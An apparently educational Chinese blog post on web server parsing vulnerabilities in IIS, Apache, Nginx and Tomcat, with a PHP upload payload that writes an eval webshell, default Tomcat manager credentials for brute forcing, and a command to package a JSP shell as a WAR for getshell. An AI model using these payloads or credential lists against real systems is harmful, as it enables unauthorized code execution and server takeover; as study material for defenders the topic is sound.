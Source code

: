 ```yaml
---
layout:     post
title:      "解析漏洞及其他"
subtitle:   ""
date:       2017-07-31 15:00:00
author:     "S0u1"
header-img: "img/post-bg-2015.jpg"
tags:
    - 学习
---
```

#服务器解析漏洞  
##IIS5.x-6.x解析漏洞  
该解析漏洞只能解析asp文件。  

###目录解析(6.0)  
形式：www.xxx.com/xx.asp/xx.jpg  
服务器会把.asp和.asa目录下的文件都解析成asp文件。  

###文件解析  
形式：www.xxx.com/xx.asp;.jpg  
服务器默认不解析;后面的内容，因此xx.asp;.jpg被解析成asp文件。  

###解析文件类型  
IIS6.0默认的可执行文件还有：    
/test.asa  
/test.cer  
/test.cdx  

##apache解析漏洞  
形式：www.xxx.com/test.php/php123  
apache解析文件的规则是从右向左解析，如果后缀名为不可识别的文件，就继续往左识别。  
##nginx解析漏洞  
形式：www.xxx.com/UploadFiles/image/1.jpg/1.php  
www.xxx.com/UploadFiles/image/1.jpg%00/php  
www.xxx.com/UploadFiles/image/1.jpg/%20\0.php  

Nginx默认是以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置SCRIPT_FILENAME。  

当访问www.xx.com/phpinfo.jpg/1.php这个URL时，$fastcgi_script_name会被设置为“phpinfo.jpg/1.php”，然后构造成SCRIPT_FILENAME传递给PHPCGI，但是PHP为什么会接受这样的参数，并将phpinfo.jpg作为PHP文件解析呢?  

这就要说到fix_pathinfo这个选项了。   如果开启了这个选项，那么就会触发在PHP中的如下逻辑:
PHP会认为SCRIPT_FILENAME是phpinfo.jpg，而1.php是PATH_INFO，所以就会将phpinfo.jpg作为PHP文件来解析了
另一种利用：  
上传一个名为test.jpg的文件，内容为：
```php
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>
```
然后访问test.jpg/.php，就会在根目录下生成一句话木马shell.php  

##IIS7.5解析漏洞
与nginx类似
#其他
##Tomcat远程部署漏洞  
tomcat为了方便管理与部署，安装完成后会默认有一个管理页面，管理员只需要远程上传一个war格式的文件，就可以将内容发布到网站。  
tomcat的管理地址通常是：

>http://localhost:8080/manager

默认的账号密码是：

>root/root  
tomcat/tomcat  
admin/admin  
admin/123456  

##tomcat爆破
tomcat的认证比较弱，对用户名：密码做base64编码，请求响应如果不是401即表示登陆成功。登陆成功后，可直接上传war文件来getshell。  
使用  

>jar -cvf shell.war shell.jsp

将.jsp的文件打包为war文件。

##Apache默认页面泄露漏洞  
Apache在安装后存在默认目录/icons/、/manual/  

##IIS短文件名暴力猜解漏洞
判断目标站点是否存在IIS短文件名暴力破解漏洞，可以分别访问以下两个URL：

>http://localhost/\*~1\*\*\*\*/a.aspx  
http://localhost/l1j1e\*~1\*\*\*\*/a.aspx

如果访问第一个URL，返回404，而访问第二个URL，返回400，则说明目标站点存在漏洞。
